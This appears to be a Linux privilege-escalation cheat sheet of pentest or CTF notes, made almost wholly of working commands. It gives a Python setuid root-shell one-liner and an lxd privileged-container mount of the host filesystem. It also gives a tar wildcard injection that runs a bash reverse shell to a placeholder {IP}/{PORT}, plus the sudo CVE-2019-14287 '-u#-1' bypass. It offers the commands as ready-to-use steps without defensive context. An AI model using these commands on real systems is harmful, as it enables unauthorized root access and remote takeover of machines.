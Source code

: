 -----

#### Capabilities

- Python
    - cap_setuid+ep
    - `python -c "import os;os.setuid(0);os.system('/bin/bash')"`

-----

#### lxd Group

```
# Local build
git clone https://github.com/saghul/lxd-alpine-builder.git 
cd lxd-alpine-builder 
sudo bash build-alpine

# PE 1
lxc image import ./alpine*.tar.gz --alias myimage
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh

# PE 2
wget http://{IP}/alpine-v3.12-x86_64-20200710_2021.tar.gz 
lxc image import ./alpine-v3.12-x86_64-20200710_2021.tar.gz --alias miao 
lxc image list

lxc init miao miaoaaaa -c security.privileged=true 
lxc config device add miaoaaaa mydevice disk source=/ path=/mnt/root recursive=true 
lxc start miaoaaaa 
lxc exec miaoaaaa /bin/sh 
cd /mnt/root/root
```

-----

#### Wildcards

- tar
    - `echo "bash -c 'bash -i >& /dev/tcp/{IP}/{PORT} 0>&1'" > rev`
    - `chmod +x rev`
    - `touch /{PATH}/--checkpoint=1`
    - `touch /{PATH}/--checkpoint-action=exec=rev`

-----

#### SOP
- Check `sudo -l`
	- What file we can run as super user 
- Check crontab
    - `cat /etc/crontab `
	- With LinEnum, LinPeas
	- PsPy check
- Check SUID / SGID
    - `find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`
    - `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
    - With [GTFOBins](https://gtfobins.github.io/)
- Check sudo version
	- [CVE-2019-14287](https://www.exploit-db.com/exploits/47502)
		- sudo < 1.8.28
		- `sudo -u#-1 binary`
    - [CVE-2010-0426](https://github.com/t0kx/privesc-CVE-2010-0426) Sudo 1.6.x <= 1.6.9p21 and 1.7.x <= 1.7.2p4